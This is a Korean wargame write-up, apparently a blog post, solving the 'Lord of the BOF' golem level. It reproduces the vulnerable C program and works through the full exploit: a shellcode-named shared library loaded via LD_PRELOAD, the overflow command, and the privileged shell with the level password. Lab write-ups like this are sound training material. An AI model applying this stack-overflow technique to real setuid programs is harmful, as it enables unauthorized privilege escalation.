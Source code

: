 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL11 (Skeleton -> Golem) : Stack Destroyer"
date: 2015-11-15 22:03:10
category: wargame
tags:  bof 
---
```


- id = skeleton
- pw = shellcoder

<!--more--> 

## 1. 문제 : golem.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // stack destroyer!
        memset(buffer, 0, 44);
        memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

### 1.1 변경된 코드

으악… buffer[40] 뒤에 LR 이후부터 stack bottom까지 모두 0으로 clear 시킨다. 즉, shellcode 를 stack 에 올려놓고 실행을 할 수 없다는 것이다. 그렇다면… ROP (Return-Oriented Programming)이나 return-to-libc 기법으로 기존 코드를 재활용하여 shellcode 동작시켜야 할 것 같다.

```c
// stack destroyer!
        memset(buffer, 0, 44);
        memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
```

## 2. 공격 방법 고민

물론 ROP도 가능하겠지만 이것은 아마도 맨 뒤에 나올 듯 하고, 이보다 쉽게 접근 가능한 방법이 바로 공유 라이브러리를 이용하는 것인가보다. 사실 이 방법은 잘 몰라서 힌트를 좀 봤다. :)

프로그램에서 stack 을 다 초기화시키고 있지만 공유라이브러리 사용을 부분에 지워지지 않는 부분이 있는 듯 하다. 파일을 shared library 로 compile 하여 사용하고, 이 파일 이름에 shellcode 를 올려 놓고, 여기 가르키도록 공격을 할 예정이다.

### 2.1 shared library compile 할 소스

사실 이번에 중요한 것은 공유라이브러리로 올리가는 object 의 파일 이름.

```c
void shell() {}
```

## 2.2 shared library compile

- fPIC : Position Indepedent Code
- shared : shared library

```bash
$ gcc shellcode.c -fPIC -shared -o `python -c 'print "\x90"*200 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`

>  file `python -c 'print "\x90"*200 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`  
hù¿@hà@¸à@PÃ: ELF 32-bit LSB shared object, Intel 80386, version 1, not stripped
```

## 2.3 LD_PRELOAD 에 등록

```
export LD_PRELOAD="./`python -c 'print "\x90"*200 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`"
```

## 2.4 디버깅

### 2.4.1 Stack bottom

마지막 ret 하기 이전 stack 상황. 모드 clear 된 상태.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage11-1.png)

### 2.4.2 LD_PRELOAD 내용은 어디에 ?

사실 LD_PRELOAD로 설정된 내용이 메모리 어디에 잡히는지 아직 잘 모르겠다. 현재 Stack 윗 메모리 중에 해당 내용이 잡혀 있긴 하다.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage11-3.png)

## 3. 공격

LR 값은 0xbffff770 으로 선택.

```bash
$ ./golem `python -c 'print "A"*44 + "\x70\xf7\xff\xbf"'`    

bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)

bash$ my-pass
euid = 511
cup of coffee
```

## 5. 의문점

#### LD_PRELOAD 관련 위치

ldd 로 확인해본 위치로는 0x40015000 에 잡혀있네요. 이번 문제에서는 LR이 0xbfff---- 을 사용해야 하므로 이 값은 쓸 수 없겠네요. Stack 위에도 이 값이 copy 되어 잡히게 되는 것인가요 ?

```
$ ldd /bin/ls
        ./hù¿@hà@¸à@PÃ => ./hù¿@hà@¸à@PÃ (0x40015000)
        libtermcap.so.2 => /lib/libtermcap.so.2 (0x4001a000)
        libc.so.6 => /lib/libc.so.6 (0x4001e000)
        /lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

##### NOP 앞 부분 jump 시 fault

NOP 를 200 bytes 로 충분히 넣었는데, 앞부분으로 jump 하면 fault 가 발생하네요. Stack 위치 계산이 틀어져서 약간 오차가 있는 것이 잘 모르겠네요…

```
// Fault
>  ./golem `python -c 'print "A"*44 + "\x20\xf7\xff\xbf"'`  
Program received signal SIGSEGV, Segmentation fault.
0x40032942 in __libc_start_main (main=???, argc=???, argv=???, init=???,
    fini=???, rtld_fini=???, stack_end=???)
    at ../sysdeps/generic/libc-start.c:73
73      ../sysdeps/generic/libc-start.c: No such file or directory.  

// OK
>  ./golem `python -c 'print "A"*44 + "\x24\xf7\xff\xbf"'`
```





